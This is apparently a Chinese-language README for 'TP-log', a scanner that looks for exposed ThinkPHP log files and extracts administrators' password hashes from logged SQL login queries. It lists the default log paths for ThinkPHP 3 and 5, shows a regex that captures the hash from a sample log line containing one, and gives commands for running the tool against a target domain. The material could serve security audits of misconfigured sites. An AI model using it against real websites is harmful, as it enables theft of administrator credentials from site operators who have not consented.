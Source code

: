 ## TP-log

通过thinkphp日志获取管理员登录的密码密文

### tips

过滤用户名密码使用正则，需要提前下载日志查看日志中传输账号密码的sql语句，改写正则

```
SQL: SELECT * FROM `cv_admin` WHERE ( `username` = 'admin' ) AND ( `password` = 'da02b6b67b6c3e3e2d15757885846d2c63830f22' ) LIMIT 1   [ RunTime:0.000259s ]
```

正则

```python
password_pattern = r"`username` = '{}' \) AND \( `password` = '(.*?)'".format(username)
```

### 使用

![image-20210517165149271](https://i.loli.net/2021/05/17/YNkAVtmLnvH6dTi.png)

`tp3`默认日志路径及格式

```
/App/Runtime/Logs/21_05_17.log
```

`tp5`默认日志路径及格式

```
/runtime/log/202105/17.log
```



#### 扫描常规日志

默认加`-u`为tp3

##### tp3

```
python3 TP-log.py -u http://domain.com/
```

![cgscan](https://i.loli.net/2021/04/23/yIYjALDhXVGpaqr.png)

扫描时间缀日志

```
python3 TP-log.py -u http://domain.com/ -m y
```

![timescan](https://i.loli.net/2021/04/23/2TjPJDKFeZhynli.png)

##### tp5

```
python3 TP-log.py -u http://domain.com/ -v 5
```

![image-20210517165732299](https://i.loli.net/2021/05/17/qH8fktj2zPvx3TV.png)

```
python3 TP-log.py -u http://domain.com/ -v 5 -m y 
```

![image-20210517170714999](https://i.loli.net/2021/05/17/UgEnVi4DLPk8CuX.png)

